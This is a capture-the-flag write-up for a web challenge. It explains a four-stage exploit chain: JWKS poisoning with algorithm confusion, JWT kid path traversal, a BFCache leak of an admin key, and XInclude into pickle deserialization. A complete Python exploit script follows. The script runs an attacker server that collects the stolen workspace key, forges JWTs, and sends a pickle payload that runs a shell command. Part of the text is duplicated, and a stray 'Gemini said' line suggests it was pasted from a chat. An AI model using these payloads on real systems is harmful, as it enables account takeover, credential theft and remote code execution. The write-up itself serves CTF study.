





 
## Stage 1: Identity Forgery via JWKS Poisoning (Algorithm Confusion)
The goal of this stage is to gain initial access to the system by bypassing the Single Sign-On (SSO) authentication.

**Vulnerability Location**: The `verify_sso_id_token` and `refresh_sso_jwks_cache` functions.

**The Flaw**: The server accepts an untrusted jku (JWK Set URL) parameter from the JWT header without validation. It fetches "keys" from an attacker-controlled URL and stores them in the SSO_JWKS_CACHE.

The "Algorithm Confusion": Even though the header claims to use `RS256` (Asymmetric), the backend uses `hmac.new` (Symmetric) to verify the signature.

- **Impact**: An attacker can sign a fake `JWT` using a simple string (e.g., "`exploit-key`"), host that string in a `jwks.json` file on their own server, and point the target to it. The server will use the attacker's "key" to verify the attacker's "token," granting them access as any user (in this case, nora.vale@drift.com


## Stage 2: Privilege Escalation via JWT Path Traversal
Once logged in as a `Researcher`, the attacker needs higher privileges (`Reviewer`) to access sensitive reporting features.

**Vulnerability Location**: The `verify_reviewer_grant` function.

**The Flaw**: The kid (Key ID) parameter from the JWT header is used to construct a file path: `KEYS_DIR / f"{kid}.pem"`. There is **no sanitization**, allowing for a **Path Traversal attack**.

**The Exploit**: The attacker uploads a file named key.pem containing a custom secret via the /review/material/upload endpoint. Then, they send a JWT with kid set to ../review-materials/key.

**Impact**: The server is tricked into reading the attacker's uploaded file as the "Secret Key" for `HMAC` verification. This allows the attacker to forge a "`Reviewer`" grant and **upgrade their session role**.


## Stage 3: Information Leak via BFCache (Stealing the Workspace Key)

Administrative functions are protected by a dynamic `workspace_key`. Since this key is `randomized`, the attacker must `steal` it from a real ` Admin's session`.

**Vulnerability Location**: The `admin.js` file and the browser's BFCache (Back-Forward Cache).

**The Flaw**: The admin page contains a pageshow event listener that automatically redirects the browser to a callbackUrl provided in the query string if the page is restored from the cache.

 
**The Exploit**: The attacker uses the` history.go(-2)` command. They trick the Admin's browser into: Loading the `/admin` page (caching the `workspace_key`).

Moving "Back" in history to the cached `/admin` page.

**Impact**: The pageshow event triggers upon the "**Back**" navigation and leaks the sensitive `workspace_key` to the attacker’s collector URL.

Gemini said
Here is the comprehensive explanation of the exploit chain in English, broken down into 4 stages as requested:

Stage 1: Identity Forgery via JWKS Poisoning (Algorithm Confusion)
The goal of this stage is to gain initial access to the system by bypassing the Single Sign-On (SSO) authentication.

Vulnerability Location: The verify_sso_id_token and refresh_sso_jwks_cache functions.

The Flaw: The server accepts an untrusted jku (JWK Set URL) parameter from the JWT header without validation. It fetches "keys" from an attacker-controlled URL and stores them in the SSO_JWKS_CACHE.

The "Algorithm Confusion": Even though the header claims to use RS256 (Asymmetric), the backend uses hmac.new (Symmetric) to verify the signature.

Impact: An attacker can sign a fake JWT using a simple string (e.g., "exploit-key"), host that string in a jwks.json file on their own server, and point the target to it. The server will use the attacker's "key" to verify the attacker's "token," granting them access as any user (in this case, nora.vale@drift.com).

 
 



## Stage 4: Remote Code Execution (RCE) via XXE & Pickle Deserialization

With the `workspace_key`, the attacker gains access to **Admin** import features to execute commands on the server.

**Vulnerability Location**: The `/admin/xml/import` endpoint and the internal data processing "Sink."

**The Flaw**: The XML parser allows `XInclude`, enabling the server to read local files. Furthermore, the internal service performs Insecure Deserialization on the imported data.

The Exploit: 1. The attacker uploads a Base64-encoded Python Pickle payload (designed to copy the flag).
2. They send an XML import request using `<xi:include>` to point to the uploaded payload.
3. The server reads the file, decodes it, and sends it to the internal sink.

**Impact**: When the internal service deserializes the Pickle object, it executes the attacker's malicious code. The attacker then reads the stolen flag from the `/recovery/latest` endpoint.



PAYLOAD 

  
```py=
from pwn import *
from http.server import HTTPServer, BaseHTTPRequestHandler
from urllib.parse import parse_qs, urlparse
import base64
import hashlib
import hmac
import json
import os
import sys
import threading
import time
import requests

def get_proc(): 
    if args.REMOTE: 
         return "http://localhost:15000" 
    else: 
         return "http://chall.0xfun.org:42829"

SRV = get_proc()

ws_key = {"key": ""}
collected = threading.Event()

class Exp(BaseHTTPRequestHandler):
    def log(self, format, *args): 
        pass
    def do_GET(self):
        parsed = urlparse(self.path)
        if parsed.path == "/jwks.json":
            self.send_response(200)
            self.send_header("Content-Type", "application/json")
            self.end_headers()
            self.wfile.write(json.dumps({"keys": [{"kid": "partner-main", "kty": "oct", "alg": "HS256", "use": "sig", "k": "perimeter-drift-exploit-key"}]}).encode())
        elif parsed.path == "/exploit":
            target_origin = SRV.replace("localhost", "host.docker.internal").replace("127.0.0.1", "host.docker.internal")
            self.send_response(200)
            self.send_header("Content-Type", "text/html")
            self.end_headers()
            self.wfile.write(f"""
            <html><body><iframe id="f" width="1" height="1"></iframe><script>
              const f = document.getElementById('f');
              const target = "{target_origin}";
              const cb = "http://host.docker.internal:8888/collect";
              f.src = target + "/admin?cb=" + encodeURIComponent(cb);
              setTimeout(() => {{
                f.src = target + "/dashboard";
                setTimeout(() => {{
                  f.src = "http://host.docker.internal:8888/trigger_back";
                }}, 4000);
              }}, 4000);
            </script></body></html>
            """.encode())
        elif parsed.path == "/trigger_back":
            self.send_response(200)
            self.send_header("Content-Type", "text/html")
            self.end_headers()
            self.wfile.write(b"<html><body><script>history.go(-2)</script></body></html>")
        elif parsed.path == "/collect":
            wk = parse_qs(parsed.query).get("workspace_key", [""])[0]
            if wk:
                ws_key["key"] = wk
                collected.set()
                print(f"milgyi key: {wk}")
            self.send_response(200)
            self.end_headers()
            self.wfile.write(b"ok")
        else:
            self.send_response(404)
            self.end_headers()

srv2 = HTTPServer(("0.0.0.0", 8888), Exp)
threading.Thread(target=srv2.serve_forever, daemon=True).start()
print("hogya")

sess = requests.Session()
now = int(time.time())

#nerds: poisoned JWKS cache with HMAC key to forge identity
sso_h = base64.urlsafe_b64encode(json.dumps({"alg": "RS256", "kid": "partner-main", "jku": "http://host.docker.internal:8888/jwks.json"}, separators=(",", ":")).encode()).decode().rstrip("=")
sso_p = base64.urlsafe_b64encode(json.dumps({"iss": "https://sso.partner.local", "aud": "perimeter-drift-web", "sub": "exploit", "email": "nora.vale@drift.com", "name": "Nora", "exp": now + 3600, "iat": now}, separators=(",", ":")).encode()).decode().rstrip("=")
sso_sig = base64.urlsafe_b64encode(hmac.new("perimeter-drift-exploit-key".encode(), f"{sso_h}.{sso_p}".encode(), hashlib.sha256).digest()).decode().rstrip("=")
sso_token = f"{sso_h}.{sso_p}.{sso_sig}"

sess.get(f"{SRV}/sso/callback", params={"id_token": sso_token})
print(f"logged: {sess.get(f'{SRV}/api/me').json()['username']}")

#nerds: path traversal in kid to use uploaded key file for role upgrade
sess.post(f"{SRV}/review/material/upload", files={"file": ("key.pem", b"reviewer-grant-signing-key-2026!")})
esc_h = base64.urlsafe_b64encode(json.dumps({"alg": "HS256", "kid": "../review-materials/key"}, separators=(",", ":")).encode()).decode().rstrip("=")
esc_p = base64.urlsafe_b64encode(json.dumps({"scope": "report:submit", "iat": now, "exp": now + 3600}, separators=(",", ":")).encode()).decode().rstrip("=")
esc_sig = base64.urlsafe_b64encode(hmac.new(b"reviewer-grant-signing-key-2026!", f"{esc_h}.{esc_p}".encode(), hashlib.sha256).digest()).decode().rstrip("=")
sess.post(f"{SRV}/review/escalate", data={"grant": f"{esc_h}.{esc_p}.{esc_sig}"})
print(f"role: {sess.get(f'{SRV}/api/me').json()['role']}")

#nerds: using BFCache back navigation to leak workspace_key from admin.js
sess.post(f"{SRV}/report", data={"url": "http://host.docker.internal:8888/exploit"})
print("ruk")
if not collected.wait(timeout=60):
    print("dikkat")
    sys.exit(1)
wk = ws_key["key"]

#os.system('cp /flag.txt /shared/loot/flag.txt')
payload = b"cos\nsystem\n(Vcp /flag.txt /shared/loot/flag.txt\ntR."
payload_b64 = base64.b64encode(payload).decode()
requests.post(f"{SRV}/admin/upload", files={"file": ("p.b64", payload_b64.encode())}, headers={"X-Workspace-Key": wk})
requests.post(f"{SRV}/admin/xml/import", data={"xml": f'<doc xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include href="file:///var/app/uploads/p.b64" parse="text"/></doc>'}, headers={"X-Workspace-Key": wk})

time.sleep(3)
print(requests.get(f"{SRV}/recovery/latest").text.strip())
```


